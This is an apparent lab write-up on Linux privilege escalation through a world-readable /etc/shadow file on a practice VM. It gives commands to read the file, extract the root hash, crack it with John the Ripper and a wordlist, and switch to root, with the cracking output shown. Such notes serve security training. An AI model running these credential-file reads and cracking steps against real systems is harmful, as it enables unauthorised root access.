 ### /etc/shadow


The `/etc/shadow` file *contains user password hashes* and is **usually readable only by the root user.**

Note that the `/etc/shadow` file on the VM is world-readable:

	ls -l /etc/shadow

#### View the contents of the /etc/shadow file:

	cat /etc/shadow

Each line of the file represents a user. **A user's password hash (if they have one) can be found between the first and second colons (:) of each line.**

###### Task details
Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Switch to the root user, using the cracked password:

	su root

Remember to exit out of the root shell before continuing!

## Results
	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
	Created directory: /root/.john
	Using default input encoding: UTF-8
	Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
	Cost 1 (iteration count) is 5000 for all loaded hashes
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	password123      (?)     
	1g 0:00:00:01 DONE (2022-06-03 22:15) 0.8620g/s 1324p/s 1324c/s 1324C/s cuties..mexico1
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed.

[[4.Weak file permissions - Writable -etc-shadow]]